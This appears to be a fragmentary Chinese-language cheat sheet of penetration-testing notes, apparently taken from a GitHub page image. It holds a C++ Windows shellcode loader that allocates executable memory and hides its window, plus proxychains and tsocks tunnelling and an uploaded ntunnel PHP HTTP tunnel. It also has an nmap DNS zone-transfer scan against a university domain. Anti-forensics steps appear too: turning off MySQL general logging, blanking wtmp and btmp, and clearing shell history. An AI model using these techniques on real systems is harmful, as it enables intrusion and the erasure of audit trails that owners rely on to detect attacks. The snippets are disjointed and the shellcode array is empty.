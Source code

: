 set global general_log=off;                  #关闭general log模式

curl --socks5-hostname 127.0.0.1:1080 www.google.com
wget 只能使用 http 代理，而无法直接使用 socks 代理
1.proxychains wget www.google.com
2.apt-get install tsocks
cat /etc/tsocks.conf
server = 127.0.0.1
# Server type defaults to 4 so we need to specify it as 5 for this one
server_type = 5
# The port defaults to 1080 but I've stated it here for clarity 
server_port = 1080
tsocks wget www.google.com

shellcode加载方式
#include <iostream>
#include "stdio.h"
#include "Windows.h"
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"") //去除窗口
unsigned char shellcode[] =
1.LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(Memory, shellcode, sizeof(shellcode));
((void(*)())Memory)();

mysql远程登录关闭 上传ntunnel php文件创建http隧道

dns-zone-transfer
nmap --script dns-zone-transfer --script-args dns-zone-transfer.domain=xxx.edu.cn -p 53 -Pn dns.xxx.edu.cn

32位机器:
32位的程序存储在C:\Program Files中，32位的dll存储在C:\System32
64位机器:
64位的程序存储在C:\Program Files中，64位的dll存储在C:\Windows\System32
32位的程序存储在C:\Program Files(x86)中，32位的dll存储在C:\Windows\SysWOW64

last显示/var/log/wtmp文件
lastb显示/var/log/btmp文件(需root权限)
配置文件vim /etc/logrotate.conf
清除登录记录(注意wtmp.1 btmp.1等历史文件)
echo ""> /var/log/wtmp
echo ""> /var/log/btmp

history:
history -c 清除所有历史记录
vim ~/.bash_history 修改历史记录存储文件
history -r 读取历史文件到内存
